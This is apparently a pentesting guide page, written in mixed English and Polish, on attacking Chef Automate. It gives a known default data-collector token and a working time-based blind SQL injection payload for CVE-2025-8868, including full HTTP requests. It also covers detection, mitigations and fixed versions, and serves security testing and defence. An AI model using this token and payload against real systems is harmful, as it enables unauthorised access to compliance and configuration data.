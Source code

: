 # Chef Automate Enumeration & Attacks

{{#include ../../banners/hacktricks-training.md}}

## Overview

Ta strona zbiera praktyczne techniki to enumerate and attack Chef Automate instances, ze szczególnym naciskiem na:
- Discovering gRPC-Gateway-backed REST endpoints and inferring request schemas via validation/error responses
- Abusing the x-data-collector-token authentication header when defaults are present
- Time-based blind SQL injection in the Compliance API (CVE-2025-8868) affecting the filters[].type field in /api/v0/compliance/profiles/search

> Note: Backend responses that include header grpc-metadata-content-type: application/grpc typically indicate a gRPC-Gateway bridging REST calls to gRPC services.

## Recon: Architecture and Fingerprints

- Front-end: Often Angular. Static bundles can hint at REST paths (e.g., /api/v0/...)
- API transport: REST to gRPC via gRPC-Gateway
- Responses may include grpc-metadata-content-type: application/grpc
- Database/driver fingerprints:
- Error bodies starting with pq: strongly suggest PostgreSQL with the Go pq driver
- Interesting Compliance endpoints (auth required):
- POST /api/v0/compliance/profiles/search
- POST /api/v0/compliance/scanner/jobs/search

## Auth: Data Collector Token (x-data-collector-token)

Chef Automate exposes a data collector that authenticates requests via a dedicated header:

- Header: x-data-collector-token
- Risk: Some environments may retain a default token granting access to protected API routes. Known default observed in the wild:
- 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

If present, this token can be used to call Compliance API endpoints otherwise gated by auth. Always attempt to rotate/disable defaults during hardening.

## API Schema Inference via Error-Driven Discovery

gRPC-Gateway-backed endpoints often leak przydatne błędy walidacji, które opisują oczekiwany model żądania.

For /api/v0/compliance/profiles/search, the backend expects a body with a filters array, where each element is an object with:

- type: string (filter field identifier)
- values: array of strings

Example request shape:
```json
{
"filters": [
{ "type": "name", "values": ["test"] }
]
}
```
Niepoprawny JSON lub niewłaściwe typy pól zazwyczaj wywołują odpowiedzi 4xx/5xx z podpowiedziami, a nagłówki wskazują zachowanie gRPC-Gateway. Użyj tego do odwzorowania pól i zlokalizowania powierzchni wstrzyknięć.

## Compliance API SQL Injection (CVE-2025-8868)

- Affected endpoint: POST /api/v0/compliance/profiles/search
- Injection point: filters[].type
- Vulnerability class: time-based blind SQL injection in PostgreSQL
- Root cause: Brak właściwej parametryzacji/whitelistingu przy interpolowaniu pola type do dynamicznego fragmentu SQL (prawdopodobnie używanego do konstrukcji identyfikatorów/WHERE clauses). Spreparowane wartości w type są ewaluowane przez PostgreSQL.

Działający time-based payload:
```json
{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```
Uwagi dotyczące techniki:
- Zamknij oryginalny string pojedynczym apostrofem
- Dołącz podzapytanie wywołujące pg_sleep(N)
- Ponownie wejdź w kontekst string za pomocą ||, aby końcowy SQL pozostał składniowo poprawny niezależnie od tego, gdzie type jest osadzone

### Dowód przez różnicę opóźnień

Wyślij sparowane żądania i porównaj czasy odpowiedzi, aby zweryfikować wykonanie po stronie serwera:

- N = 1 sekunda
```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(1))||'","values":["test"]}]}
```
- N = 5 sekund
```
POST /api/v0/compliance/profiles/search HTTP/1.1
Host: <target>
Content-Type: application/json
x-data-collector-token: 93a49a4f2482c64126f7b6015e6b0f30284287ee4054ff8807fb63d9cbd1c506

{"filters":[{"type":"name'||(SELECT pg_sleep(5))||'","values":["test"]}]}
```
Observed behavior:
- Czasy odpowiedzi skalują się zgodnie z pg_sleep(N)
- Odpowiedzi HTTP 500 mogą zawierać szczegóły zaczynające się od pq: podczas sondowania, potwierdzając ścieżki wykonania SQL

> Wskazówka: Użyj walidatora czasowego (np. wielokrotne próby z porównaniem statystycznym), aby zmniejszyć szum i fałszywe pozytywy.

### Impact

Uwierzytelnieni użytkownicy — lub nieautoryzowani aktorzy wykorzystujący domyślny x-data-collector-token — mogą wykonywać dowolne zapytania SQL w kontekście PostgreSQL w Chef Automate, narażając poufność i integralność profilów zgodności, konfiguracji oraz telemetrii.

### Affected versions / Fix

- CVE: CVE-2025-8868
- Upgrade guidance: Chef Automate 4.13.295 or later (Linux x86) per vendor advisories

## Detection and Forensics

- API layer:
- Monitoruj odpowiedzi 500 na /api/v0/compliance/profiles/search, gdzie filters[].type zawiera cudzysłowy ('), konkatenację (||) lub odwołania do funkcji takie jak pg_sleep
- Sprawdź nagłówki odpowiedzi pod kątem grpc-metadata-content-type, aby zidentyfikować przepływy gRPC-Gateway
- Database layer (PostgreSQL):
- Audytuj wywołania pg_sleep i błędy niepoprawnych identyfikatorów (często ujawniane z prefiksem pq: pochodzącym z Go pq drivera)
- Authentication:
- Loguj i generuj alerty przy użyciu x-data-collector-token, szczególnie znanych wartości domyślnych, w różnych ścieżkach API

## Mitigations and Hardening

- Immediate:
- Rotuj/wyłącz domyślne tokeny data collector
- Ogranicz ingress do endpointów data collector; wymuszaj silne, unikatowe tokeny
- Code-level:
- Parametryzuj zapytania; nigdy nie łącz fragmentów SQL przez konkatenację łańcuchów
- Ściśle ogranicz wartości type do białej listy po stronie serwera (enum)
- Unikaj dynamicznego składania SQL dla identyfikatorów/klauzul; jeśli wymagane jest dynamiczne zachowanie, użyj bezpiecznego cytowania identyfikatorów i jawnych białych list

## Practical Testing Checklist

- Sprawdź, czy x-data-collector-token jest akceptowany i czy znana wartość domyślna działa
- Zmapuj schemat żądań Compliance API, wywołując błędy walidacji i czytając komunikaty/nagłówki błędów
- Testuj SQLi w mniej oczywistych polach "identifier-like" (np. filters[].type), nie tylko w tablicach wartości lub polach tekstowych na najwyższym poziomie
- Używaj technik opartych na czasie z konkatenacją, aby utrzymać składniową poprawność SQL w różnych kontekstach

## References

- [Cooking an SQL Injection Vulnerability in Chef Automate (XBOW blog)](https://xbow.com/blog/cooking-an-sql-injection-vulnerability-in-chef-automate)
- [Timing trace (XBOW)](https://xbow-website.pages.dev/traces/chef-automate-sql-injection/)
- [CVE-2025-8868](https://www.cve.org/CVERecord?id=CVE-2025-8868)
- [gRPC-Gateway](https://github.com/grpc-ecosystem/grpc-gateway)
- [pq PostgreSQL driver for Go](https://github.com/lib/pq)

{{#include ../../banners/hacktricks-training.md}}
